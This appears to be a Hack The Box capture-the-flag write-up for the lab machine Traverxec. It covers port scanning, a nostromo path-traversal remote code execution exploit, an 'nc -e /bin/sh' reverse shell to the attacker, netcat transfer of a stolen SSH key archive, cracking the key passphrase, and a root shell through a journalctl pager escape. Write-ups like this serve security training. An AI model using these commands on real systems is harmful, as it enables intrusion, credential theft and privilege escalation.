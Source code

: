 For all the machines I do, I always start off with an nmap scan.  First a quick port scan and then a detailed port scan.
I start off by using `nmap -p- -T4 10.10.10.165`
This shows us that we have two ports open, 22 and 80.  On hack the box we don't need to brute force SSH, because there's other ways in.

Let's go ahead and get some version information about the services and the operating system.
`nmap -p22,80 -A -O -sV -T4 10.10.10.165 -oA Traverxec`
Here we are specifcally scanning the ports that we know are open with -p22,80, we use -A for OS detection, version detection, script scanning and traceroute, -sV specifcally for identifying service versions, -T4 for speed (-T5 is fastest, but tends to knock over hosts), -O is for Operating System detection again, and finally -oA Filename will put the output out in 3 different formats
```
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   52.86 ms 10.10.14.1
2   52.95 ms 10.10.10.165
```
Great we get the version of the http web server is 1.9.6.  Now we can visit the page and explore.  I always run dirbuster against web sites to look for the various directories.
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.165`

After visiting http://10.10.10.165/admin we trigger an error and once again see that the version is nostromo 1.9.6.  Searching google we find some exploit code here https://www.exploit-dm.com/exploits/43837.
This says it is remote code execution, perfect exactly what we need.

Looking through the usage we need a target IP, target port, and a command to pass it.  The vulnerability is due to directory traversal where we can make a POST request using a few .0%d/ and eventually call a shell.
we are starting at a specific directory where the web server is sitting and moving up directories until we can then move into /bin where all the binaries are stored.
If you want to view the contents of the binary folder or any folder just visit http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./ This link shows you the contents of root.
select the bin folder if you want to see what binaries you can run and home to see what users are on the machine.

To use the exploit code just save the code from exploit db into a file called cve2019_16278.py.  Then we want to run the command.  From looking at /bin we know what different binaries we can call from visiting here http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/.

The problem is a lot of them have 500 interal server error.  I made a list of all the files and then used foxy proxy and burp to capture the request of visiting http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/apt-cache
Any binary path would work here.
Once you open burp, go to the proxy tab and turn intercept on.  Also your foxy proxy needs to be configured to send traffic through burp which is listening in my case on 8080.
![Burp Intercepted Request](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/Burp%20Intercepted%20Request.jpg)


Once we get the request the first line will look like this:  GET /.0%D./.0%D./.0%D./.0%D./bin/apt-cache.  Right click the request and send to Intruder.
In intruder choose Sniper as the Attack Type and highlight apt-cache or whatever is after /bin/ and click Add.  Then under the payloads tab, paste the list you made earlier of all the binaries and click start attack.
This could be slowed down if you are running the free Burp, which I am.

We notice that bash gets a 500 Status, but sh gets a 200, so let's use sh in our exploit.

First start a netcat listener on your kali machine, nc -nlvp 4444.  You can use any port here.
Now cd into the folder where your exploit code is saved at from above.  My code is called cve2019_16278.py, remember we need to give it a target IP, target port, and command.  I had to use quotes for commands to pass it the arguments.
python cve2019_16278.py 10.10.10.165 80 "nc -e /bin/sh 10.10.14.26 4444"
the IP after /bin/sh is your Hack The Box VPN and the port your netcat is listening on.

Check your connection and we have a shell!  Here is our initial access!
The problem is that our shell is pretty limited luckily we can upgrade it by using python!  python -c 'import pty; pty.spawn("/bin/sh")'
now we have an upgraded shell.
Check whoami and find our we are www-data.

Looking around check the /home directories to see who some of the users are, which the only one is david.  Check David's directory, we are denied access.
Let's look for configuration files by using the command:  find / -type f -iname '*.conf'
Here we are starting at the root directory and looking for files that are .conf.
We notice there'a file in /var/nostromo/conf/ titled nhttpd.conf.  There are some issues using commands on this machine, so you have to use the full path.  We want to cat out the file so do which cat to know the path.
Finally /usr/bin/cat /var/nostromo/conf/nhttpd.conf.  This file shows us that in home dirs there is a homedirs_public directory called public_www
Let's see what may be in that folder so do ls /home/david/public_www.  There a protected file area, maybe we can move into that directory.  cd /home/david/public_www/protected-file-area and list the files.  Great we have backup-ssh-identify-files.tgz!
Let's move this file over to our attacker machine, which we can do via netcat.  On kali run: nc -l -p 1234 > backup-ssh-identity-files.tgz.  Our machine is now waiting for that file.
Let's see where netcat lives on our target by doing which nc, it's in /usr/bin/nc. Now send that file to the attacker machine by doing /usr/bin/nc -w 3 10.10.14.26 1234 < backup-ssh-identity-files.tgz
Now we have the file on our target file, let's uncompress the file by doing tar zxvf backup-ssh-identity-files.tgz and cat out the id_rsa file that comes out.
Well the first thing we notice is the file is encrypted, but that's no issue for tools like John the Ripper!
We can use the program ssh2john which is a python program that can properly format the file so we can then crack the key for id_rsa.

I put this in my sbin folder on kali so I did cd /usr/sbin, then grab the file by doing wget https://github.com/magnumripper/JohnTheRipper/tree/bleeding-jumbo/run/ssh2john.py.
Now I copied the file over to my directory for HackTheBox where my id_rsa file is stored.  Then do python ssh2john.py id_rsa > crack.txt.  We are outputting this to crack.txt to later crack the password for the id_rsa file.  If you cat crack.txt you can see the id_rsa file that's formatted as id_rsa:$sshng etc.
Finally use JohnTheRipper to crack the key for that file by doing john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt   Here we are telling john what wordlist to use and what file to try and crack.  It quickly finds the key to be hunter.
Now let's decrypt the id_rsa file by using openssl.   openssl rsa -in id_rsa -out dec.key It will prompt you for the password so enter hunter.
Finally ssh into the target by doing, ssh -i dec.key david@10.10.10.165
Great we can access the machine via SSH and we can cat out the user.txt file and submit that to HackTheBox!

Now starts privilege escalation!

I always start off by seeing what my user can do with sudo, but since we don't have david's password, we can't actually check this.

when you ls on david's home directory we notice a /bin folder which is interesting, so cd into /bin.  There's a server-stts.sh file, remember to run this we have to call bash with the full path.
/usr/bin/bash ./server-stats.sh.  This shows us the last 5 journal log lines, let's look at the actual file, cat server-stats.sh.
Notice at the bottoms the script calls /usr/bin/sudo and then executes journalctl as root!  Great, we are on to something!
journalctl is a command for viewing logs collected by systemd.

Since we know we can display 5 lines, you need to change the size of your terminal so it doesn't display all the lines at the bottom you see lines 1-6
enter !/bin/sh
we are in a root shell, use whoami to verify, and finally simply cat /root/root.txt and that's the machine!  

I hope you enjoyed my journey through Traverxec!











